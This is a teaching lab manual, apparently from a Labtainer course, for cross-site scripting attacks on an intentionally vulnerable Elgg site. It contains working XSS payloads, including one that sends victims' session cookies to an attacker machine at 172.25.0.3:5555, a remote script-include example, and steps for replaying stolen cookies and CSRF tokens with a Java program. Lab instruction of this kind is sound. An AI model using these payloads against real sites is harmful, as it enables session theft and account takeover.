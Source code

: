 ![](media/b80e0eacca6dad9d42b5dc3545946591.png)

Cross-Site Scripting (XSS) Attack Lab
=================================

Overview
========

Cross-site scripting (XSS) is a type of vulnerability commonly found in web applications. This vulnerability makes it possible for attackers to inject
malicious code (e.g. JavaScript programs) into victim’s web browser. Using this malicious code, the attackers can steal the sensitive information, such as session cookies. The access control policies employed by browsers using session cookies, for example, can be bypassed by exploiting the XSS vulnerability. Vulnerabilities of this kind can potentially lead to large- scale attacks.

  

Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM, open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ labtainer xsite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM
    
 **If a network error occurs during a lab, stop the lab using 'stoplab' and enter 'docker network prune' in the terminal. Restart the lab with 'labtainer $labname'.
    
Scenario
===============

To demonstrate what attackers can do by exploiting XSS vulnerabilities, you will work will a web application named Elgg. Elgg is a popular open-source web application for social networking. Although it has implemented a number of countermeasures to remedy XSS threas, these countermeasures are removed in Elgg in your installation. This makes the Elgg site vulnerable to XSS attacks. Users can post any arbitrary message, including JavaScript programs, to the user profiles. 

In this lab, you will exploit this vulnerability to launch an XSS attack on the modified Elgg, in a way that is similar to what Samy Kamkar did to MySpace in 2005 through the notorious Samy worm. The ultimate goal of this attack is to spread an XSS worm among the users, such that whoever views an infected user's profile will then be infected them selves, and whoever is infected will add you (i.e., the attacker) to his/her friend list.

Environment Configuration
===============

This lab includes three networked computers as shown in Figure
>   [1.](#_bookmark0) 

The "vuln-site" runs the Apache web server and the Elgg web applications. The "attacker" and "victim" computers each include the Firefox browser. Use the browser Web Developer / Network tool (upper right menu), to inspect the HTTP requests and responses.

![](media/e42177508edcc836bbe205d1065f8c37.jpg)

Figure 1: Cross site scripting lab topology

   **Starting the Apache Server.** The Apache web server will be running when the lab commences. If you need to restart the web server, use the following
   command:
```
$ sudo systemctl restart httpd
```

   **The Elgg Web Application.** There are several user accounts on the Elgg server [http://www.xsslabelgg.com](http://www.xsslabelgg.com/) and the credentials are given below.

| User    | UserName | Password    |
|---------|----------|-------------|
| Admin   | admin    | seedelgg    |
| Alice   | alice    | seedalice   |
| Boby    | boby     | seedboby    |
| Charlie | charlie  | seedcharlie |
| Samy    | samy     | seedsamy    |


 **Other software.** Some of the lab tasks require some basic familiarity with JavaScript. Wherever necessary, JavaScript examples are provided to help get you started. To complete task 3, you will need a utility to watch incoming requests on a particular TCP port. The home directory on the attacker computer contains an ”echoserver” directory with a program (written in C) that can be configured to listen on a particular port and display incoming messages.

Task 4 requires modifications to, compilation and execution of a Java program on the attacker computer. This program is in the HTTPSimpleForge directory on the attacker computer, and that computer includes a JDK for compiling java.

Lab Tasks
===============

Task 1: Posting a Malicious Message to Display an Alert Window
===============
The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the JavaScript program will be executed and an alert window will be displayed. 

- From the attackers terminal,  open a browser useing the command "firefox".
- Within this browser go to the site: http://www.xsslabelgg.com
- Log into the social networking site with Samy's credentials. (see table above)
- Navigate to your profile page *square icon with avatar shadow in upper-left corner
- Select "edit profile"

The "Brief Description" section will be rendered in other users' browsers when they visit your page.  This is where you (Samy) will place your scripts.

- Try using the following JavaScript snippet to display an alert window in the browser of anyone visiting your profile page:
```
<script>alert('XSS is bad');</script>
```
- After saving this, you will be returned to your profile page.  This shoud cause the browser to render this script and provide a pop-up alert. Try loggin out and testing this from an innocent victim's account.  

- You will have successfully completed this task once you have been able to get a pop-up alert (with a message) to appear upon any browser session open to Samy's profile page.

Bonus Info
=====

In this example, the JavaScript code is short enough to be typed into the short description field. If you want to run a longer JavaScript snippet, but you are limited by the number of characters you can type into the form, you can take a different approach. 

Store the JavaScript program in a standalone file, save it with the .js extension, and then refer to it using the 'src' attribute in the <script> tag. See the following example:

```
<script type="text/javascript"
src="http://www.example.com/myscripts.js">
</script>

```

In the above example, the page will fetch the JavaScript program from [http://www.example.com](http://www.example.com/), which can be any location that you have chosen to host this script at (attacker's web server for example).

Task 2: Posting a Malicious Message to Display Cookies
===============

The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies  will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task.

- Using the same process as before, try displaying the session cookie in the alert pop-up:

```
<script>alert(document.cookie);</script>
```

- You will have successfully completed this task once you have been able to get a pop-up to appear upon any browser session open to Samy's profile page, which displays the user's cookie.

Task 3: Stealing Cookies from the Victim’s Machine
===============

In the previous task, the malicious JavaScript code displays the user’s cookie information, but only the user can see this cookies. This is not helpful to an attacker. In this task, the attacker will use JavaScript code to send the cookies to himself/herself, making them useful for session highjacking. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookie information appended to the request.

We can do this by having the malicious JavaScript insert an *<*img*>* tag with its src attribute set to the attacker’s machine. When the JavaScript inserts the image (img) tag, the browser tries to load the image from the URL in the src field. This results in an HTTP GET request being sent to the attacker’s machine. 

- The JavaScript snippet provided below sends the cookie information to port 5555 of the attacker’s machine, where the attacker has a TCP server listening to the same port. 

**Note that in the output, the "=" character gets transformed to %3D (hex).
```
<script>document.write('<img src=http://172.25.0.3:5555?c='+ escape(document.cookie) + ' >');</script>

# The attacker's IP address  is 172.25.0.3
```
- The TCP server program on the attacker's machine will print out what it recieved. to start this application on the attacker's machine, navigate to the "echoserver" directory.
- Access the "README" file and figure out how to run this program.  You **MUST** start the schoserv program before doing the XSS so that the attacker's machine can recieve the cookie informaiton that is sent.

- You will have completed this task once you have successfully been able to transmit cookie information from a user's session to the attacker's machine and read this out through the echoserv program.


Task 4: Session Hijacking using the Stolen Cookies
===============

After stealing the victim’s cookies, the attacker can do whatever the victim can do to the Elgg web server, including adding and deleting friends on behalf of the victim, deleting the victim’s post, etc. Essentially, the attacker has hijacked the victim’s session. In this task, we will launch this session hijacking attack, and write a program to add a friend on behalf of the victim. The attack should be launched from another virtual machine.

To add a friend for the victim, we should first find out how a legitimate user adds a friend in Elgg. More specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox’s Web Developer / Network tool can help us; it can display the contents of any HTTP request message sent from the browser. From the contents, we can identify all the parameters in the request.

- Log in as another user (charlie for example)
- Open the Web Developer > Network Tool in your firefox browser.
- Now add Samy as a friend.  Look at the "GET" request. Note the elgg_ts and elgg_token. Also note that Samy's's user ID is 42. These are unique for each user.

- **Remove Samy as a friend.

- In the attacker's terminal, navigate to the "/HTTPSimpleForge" directory on the attacker machine and open the "HTTPSimpleForge.java" program in the text editor leafpad:
 
 ```
 leafpad HTTPSimpleForge.java
 ```
- Change the following lines:

```
String requestDetails = "&__elgg_ts=1599761839&__elgg_token=88d6c723d87b0aee53aa7b5ef0aaec1c";
// URL to be forged.
URL url = new URL ("http://www.xsslabelgg.com/action/friends/add?friend=42"+requestDetails);
 ```
 ```
String cookies = "Elgg=cj1be6flek57vflghcdk2r2qb0";
 
```
-Save the file and close leafpad.
 **Note** Compile and run the java program using 
   
```
javac HTTPSimpleForge.java 
java HTTPSimpleForge
```


 The Elgg server cannot distinguish whether the request is sent out by the victim’s browser or by the attacker’s Java program. As long as we set all the parameters correctly, and the session cookie is attached, the server will accept and process the project-posting HTTP request. 

**Note 1:** Elgg uses two parameters elgg ts and elgg token as a countermeasure to defeat another related attack (Cross Site Request Forgery). Make sure that you set these parameters correctly for your attack to succeed.

Submission
==========
   After finishing the lab, go to the terminal on your Linux system that was used to start the lab and type:
```
$ stoplab xsite

```


